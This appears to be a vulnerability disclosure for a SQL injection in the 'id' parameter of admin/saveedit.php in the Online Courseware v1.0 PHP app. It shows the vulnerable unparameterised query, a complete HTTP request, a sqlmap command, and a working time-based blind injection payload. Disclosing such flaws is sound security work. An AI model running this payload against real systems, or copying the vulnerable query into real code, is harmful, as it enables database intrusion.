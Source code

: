 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware - SQL Injection on (admin/saveedit.php id parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
admin/saveedit.php 

On this page, id parameter is vulnerable to SQL Injection Attack 
### Source code(pcci/admin/saveedit.php):
```
$id=$_POST['id'];
mysqli_query($conn,"UPDATE student SET fname='$fname', lname='$lname', address='$address', gender='$gender', email='$email', contact='$contact' WHERE id='$id'");
```
### Proof of vulnerability(Verify using the sqlmap tool after logining ):
#### Request:
```
POST /onlinecourseware/pcci/admin/saveedit.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 207
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=sm0bljsdrcd3r9gqelkfs2sf73
Origin: http://localhost
Referer: http://localhost/onlinecourseware/pcci/admin/student.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

address=Bacolod+City&contact=90946543%&email=rolando%40yahoo.com&fname=Rolando1&gender=Male&id=2&lname=Raganas
```
#### -> sqlmap -r 1.txt (above request package) --batch
### Output:
```
---
Parameter: id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: address=Bacolod City&contact=90946543%&email=rolando@yahoo.com&fname=Rolando1&gender=Male&id=2' AND (SELECT 7030 FROM (SELECT(SLEEP(5)))BXcb) AND 'SnSe'='SnSe&lname=Raganas
---
```
